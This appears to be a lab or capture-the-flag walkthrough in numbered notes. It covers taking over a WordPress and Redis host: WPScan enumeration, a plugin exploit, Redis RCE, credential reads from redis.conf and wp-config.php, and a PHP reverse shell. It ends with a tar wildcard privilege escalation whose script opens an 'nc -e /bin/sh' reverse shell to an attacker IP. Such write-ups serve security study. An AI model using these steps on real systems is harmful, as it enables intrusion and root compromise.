 ![image](https://github.com/user-attachments/assets/32dd8ac7-6ba1-4f6a-87e7-ca1be395707e)
![image](https://github.com/user-attachments/assets/499717f1-b319-462e-922d-3d31a78b2b23)
![image](https://github.com/user-attachments/assets/10b7f6d6-acea-4480-ab98-88d9acef6fc3)
![image](https://github.com/user-attachments/assets/1192314e-f873-45c9-87d6-ea5750eafa23)
![image](https://github.com/user-attachments/assets/6c98fc1c-32d9-4f46-b44e-4a75631947f0)
![image](https://github.com/user-attachments/assets/fbf63229-5216-46d0-91cb-62f448ed7d6a)
![image](https://github.com/user-attachments/assets/d100b004-a86b-442a-a9c4-483971588f35)
![image](https://github.com/user-attachments/assets/5988b499-5ad0-46b0-a706-0d88b98f0bd6)
![image](https://github.com/user-attachments/assets/8af331e7-a318-44c1-bfd5-5d86ec914a66)
![image](https://github.com/user-attachments/assets/786c8a9e-5d86-47fa-bd5d-341bb5542f60)
![image](https://github.com/user-attachments/assets/6dd13455-142c-4a64-9476-0361235f2f2b)
![image](https://github.com/user-attachments/assets/a90146c7-8d66-4198-9f4b-db2b600646d2)
![image](https://github.com/user-attachments/assets/58c5d2dd-25a6-4a4f-b441-425add63d2f0)
![image](https://github.com/user-attachments/assets/dfe0d4df-8b30-47ae-9ecd-693c38b04727)
![image](https://github.com/user-attachments/assets/17329205-1429-4a37-9c73-87180fd8b08a)
![image](https://github.com/user-attachments/assets/887ef54e-09ea-4a58-a8a7-3226299aced3)
![image](https://github.com/user-attachments/assets/31e434c6-d1a7-400b-893d-1c4a1d16f219)
![image](https://github.com/user-attachments/assets/da36cd67-f3db-4afe-a01a-ce6f0f113dd8)
![image](https://github.com/user-attachments/assets/ae3d11ac-cadd-4f7b-9fa3-d4d5ab9f22c8)
![image](https://github.com/user-attachments/assets/f9559a01-9ace-400b-ba28-e5b180b639dd)
![image](https://github.com/user-attachments/assets/1e8bfe2c-33b0-40c0-b815-5ac619d573ea)
![image](https://github.com/user-attachments/assets/ddffe00b-4e66-4fb2-9389-c2cf1738db85)
![image](https://github.com/user-attachments/assets/3da3ccb4-d310-4ec0-997a-e36f382c4269)
![image](https://github.com/user-attachments/assets/f9aa57d6-6449-46a2-b1e5-965417cc7447)
![image](https://github.com/user-attachments/assets/dc98b19b-3e84-43c5-bbd9-b98694de687e)
![image](https://github.com/user-attachments/assets/0d8cb718-3c8e-4d38-ba97-57811711372a)
![image](https://github.com/user-attachments/assets/1cef9b58-474c-4bd0-977d-abd8c2d355b1)
![image](https://github.com/user-attachments/assets/ca76b36b-5339-44b5-8937-c5ef35d597f6)
![image](https://github.com/user-attachments/assets/c78831d0-3da7-4447-abc1-caa9a44f1b18)
![image](https://github.com/user-attachments/assets/fecc6a50-c773-4e95-a088-e9d41d34c5e0)
![image](https://github.com/user-attachments/assets/9a0854be-5d8b-420b-9ede-94872d72e817)
![image](https://github.com/user-attachments/assets/6d4ef98c-0832-49ac-9a74-4062f54a219d)
![image](https://github.com/user-attachments/assets/78796bbc-41ed-48d1-bf9e-37e55767a2ad)
![image](https://github.com/user-attachments/assets/c87489ac-ac30-40e7-94b5-6a0ca0182233)
![image](https://github.com/user-attachments/assets/50c6dd0b-d48e-422a-b365-76188482d04f)


1. WPScan -- get user admin

2. WPScan password attack against admin, no password after 15 mins, get Plugin site editor version 1.1.1

3. Exploit-DB 44340 --> get user alice --> also redis? 

4. /etc/redis/redis.conf --> SECURITY get password

5. get exp_lin.so & redis-rce.py from https://github.com/jas502n/Redis-RCE

6. usage example https://github.com/Ridter/redis-rce    (password from redis.conf)

7. MySQL creds from /var/www/html/wp-config.php

8. netstat -tulnp --> port 3306 listen on local address

9. try MySQL database --> cannot log in, just hanging

10. ps -aux --> alice run apache2

11. find / -type d -maxdepth 4 -writable 2>/dev/null --> cannot write to /var/www/html (apache2)

12. simple php --> /tmp/test.php ---> curl to call  --> fail

13. simple php --> /run/redis/test.php ---> curl to call --> work

14. php reverse shell --> /run/redis/php-reverse-shell.php --> curl to call --> get shell as alice

15. linpeas --> Cron Job /usr/local/bin/backup.sh --> tar *

16. tar wildcard privilege escalation
    ```bash
    echo '#!/bin/bash' > exploit.sh
    echo 'nc -e /bin/sh 192.168.45.165 80' >> exploit.sh
    chmod +x exploit.sh
    touch ./"--checkpoint=1"
    touch ./"checkpoint-action=exec=bash exploit.sh"
   
